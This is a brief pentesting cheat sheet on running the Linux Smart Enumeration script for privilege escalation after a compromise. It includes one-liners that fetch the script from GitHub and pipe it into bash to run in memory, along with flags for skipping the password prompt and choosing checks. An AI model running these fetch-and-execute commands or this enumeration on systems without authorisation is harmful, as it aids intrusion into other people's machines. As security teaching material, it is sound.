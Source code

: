```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - offensive-tools
  - linux
---
```

# Linux Smart Enumeration

Once you've executed the script it will ask for a password but as an attacker we are facing a black box target that we have no information. Press the Return key and it will perform the scan to look for high priority results. It will print with readable output colors to make it easier for us to find. Finally this script will run on older Linux systems and embedded devices as well

To execute script on memory.

```
$ bash <(wget --no-hsts -qO - "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh") -l2 -i

$ bash <(curl -s "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh") -l1 -i
```

To drop the script on disk.

```
$ wget -O lse.sh "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh"; chmod 755 lse.sh

$ ./lse.sh
```

Skip for a password prompt.

```
$ ./lse.sh -i
```

Display not just only the important critical findings but other interesting things such as virtualized containers, networks, running processes, cron jobs, etc...

```
$ ./lse.sh -l 1
```

Show every results it could find and non-interactive mode

```
$ ./lse.sh -il 2
```

Select a few sections or tests to run of the following sections. I would enumerate every single Linux machine with just these options to make it quick.

```
$ ./lse.sh -is usr,sud,sys,ret,net,srv,pro
```

---
## References

- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)